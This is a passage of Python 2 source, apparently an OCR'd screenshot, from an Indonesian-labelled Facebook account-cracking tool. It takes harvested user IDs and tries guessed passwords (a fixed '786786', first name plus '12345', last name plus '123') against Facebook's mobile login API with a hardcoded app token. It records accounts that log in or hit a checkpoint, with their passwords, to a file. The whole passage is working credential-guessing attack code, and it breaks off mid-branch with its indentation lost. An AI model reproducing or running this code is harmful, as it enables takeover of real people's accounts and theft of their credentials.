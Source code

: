  print "\033[1;96m[+] \033[1;93mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
 jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
 titik = ['.   ','..  ','... ']
 for o in titik:
 print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
 print
 print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
 print 42*"\033[1;96m="
 
 
 def main(arg):
 global cekpoint,oks
 user = arg
 try:
 os.mkdir('out')
 except OSError:
 pass
 try:
 a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
 b = json.loads(a.text)
 pass1 = ('786786')
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q:
 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
 oks.append(user+pass1)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass1+"\n")
 cek.close()
 cekpoint.append(user+pass1)
 else:
 pass2 = b['first_name']+'12345'
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q:
 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
 oks.append(user+pass2)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass2+"\n")
 cek.close()
 cekpoint.append(user+pass2)
 else:
 pass3 = b['last_name'] + '123'
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q: